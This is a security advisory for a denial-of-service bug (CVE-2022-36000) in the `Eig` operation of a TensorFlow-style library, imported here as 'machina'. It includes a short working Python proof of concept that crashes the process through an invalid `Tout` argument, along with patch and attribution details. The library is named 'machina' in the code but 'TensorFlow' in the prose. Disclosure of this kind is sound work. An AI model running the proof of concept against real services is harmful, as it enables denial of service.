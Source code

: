 ## TFSA-2022-136: `CHECK` fail in `Eig`

### CVE Number
CVE-2022-36000

### Impact
`Eig` can be fed an incorrect `Tout` input, resulting in a `CHECK` fail that can trigger a denial of service attack.
```python
import machina as tf
import numpy as np 
arg_0=tf.constant(value=np.random.random(size=(2, 2)), shape=(2, 2), dtype=tf.float32)
arg_1=tf.complex128
arg_2=True
arg_3=''
tf.raw_ops.Eig(input=arg_0, Tout=arg_1, compute_v=arg_2, name=arg_3)
```

### Patches
We have patched the issue in GitHub commit [aed36912609fc07229b4d0a7b44f3f48efc00fd0](https://github.com/machina/machina/commit/aed36912609fc07229b4d0a7b44f3f48efc00fd0).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by 刘力源, Information System & Security and Countermeasures Experiments Center, Beijing Institute of Technology.
